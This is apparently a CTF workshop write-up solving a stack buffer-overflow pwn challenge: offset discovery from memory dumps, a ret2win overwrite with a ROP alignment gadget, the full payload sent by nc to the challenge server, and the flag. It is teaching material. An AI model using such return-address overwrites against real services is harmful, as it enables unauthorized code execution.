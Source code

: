# Overview
The program aims to provide a reduced `pwn`ing environment similar to that of gdb,
where you can test your exploit and check memory values live. It also makes it easy
to deduce the memory (stack) layout of the program, allowing easy offset and memory
address calculations to craft your exploit.

# Vulnerability
The `input` command allows the user to enter data of arbitrary length and content (except newline)
into the stack. This makes corrupting return address possible.

# Exploit crafting
## 1. Positioning the payload
We first observe the position of the return address of the current function. By looking
at the source code, we can see that the `input` command located in `play`, which is
in turn called by `main`. This means that our return address should point to somewhere
in `main`.

Let us look at the address of main and the memory:
```
> main
main: 0x4e4e22
> dump 64 
01 00 00 00 00 00 00 00         
00 00 00 00 00 00 00 00         
18 6e 4e 00 64 75 6d 70  nN dump
20 36 34 00 01 00 00 00  64     
60 1f 5b 3c fe 7f 00 00 ` [<    
7b 4e 4e 00 00 00 00 00 {NN     
88 20 5b 3c fe 7f 00 00   [<    
88 20 5b 3c 01 00 00 00   [<
```
Since the return address is somewhere in `main`, the address should be
close to and larger than `main` (the displayed address refers to *the start* of the `main` function). This line matches perfectly, `7b 4e 4e 00 00 00 00 00 {NN`, and in front of it there are 5 lines. Therefore we can deduce that the padding[^1] should be `8*5=40` bytes.

## 2. Target
Looking at the source code, `win` calls `cat /flag`, which should print our flag. The straight forward intuition will be to change the return address of `main` to `win`, so that the `win` function is executed.

What is the address of `win` function? `0x4e4957`. Since Intel is a `little-endian` system, bytes of numbers will be placed **in reverse order** in the memory, i.e. from low order to high order, like that one that we dumped from the memory. So we need to type `57 49 4e`. What is that? Using a trusty hex editor to decode it into ASCII you can see that is just the letters `WIN`.

We end up with this for `input`:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAWIN
```

The memory layout should look like this:
```
> dump 64
41 41 41 41 41 41 41 41 AAAAAAAA
41 41 41 41 41 41 41 41 AAAAAAAA
41 41 41 41 64 75 6d 70 AAAAdump
20 36 34 00 01 00 00 00  64     
41 41 41 41 41 41 41 41 AAAAAAAA
57 49 4e 00 00 00 00 00 WIN     
d8 9b fb cd fd 7f 00 00         
d8 9b fb cd 01 00 00 00
```

## 3. A hiccup: Stack Alignment
However if you try this in the live instance, you will find that it does not work. This is because [the stack is not 16-byte aligned when system is called](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment), causing the program to segfault in the `win` function without printing the flag. This can be verified by running `gdb` on it the right environment.

To mitigate this, we can use the [ROP (Return Oriented Programming)](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming) technique to move the stack to make it 16 bit aligned[^2] with a `ret` instruction. `ret` instruction is comparable to a `pop` followed by a `jump`, which `pop` increments the stack pointer by a word (8 bytes on 64-bit computers). The stack will be realligned when `system` is executed in `win`.

To execute a `ret` instruction, we search for the instruction in the binary:
```
ROPgadget --binary chall
Gadgets information
============================================================
...
0x000000000040101a : ret
...
```
To execute this instruction, we return to that instruction. The `ret` instruction itself can then `ret` to the win function.

We append `0x000000000040101a` before the WIN address, and we get our final payload:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10\x40\x00\x00\x00\x00\x00\x57\x49\x4e\x00\x00\x00\x00\x00
```

Exploit command:
```
echo -e "input\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10\x40\x00\x00\x00\x00\x00\x57\x49\x4e\x00\x00\x00\x00\x00
\nquit" | nc workshop.f21endsh1p.me 9999
```

And you will get the flag: `cuhk24ctf-workshop{My_first_InterACTIVe_SELF_pwnPWn_aKa_wITH_cHEats_0925}`

[^1]: It does not matter what you put inside the padding, our target is only make our desired return address to reside in the location of where `7b 4e 4e` is.

[^2]: i.e. The stack pointer address ends with `0` in hex.
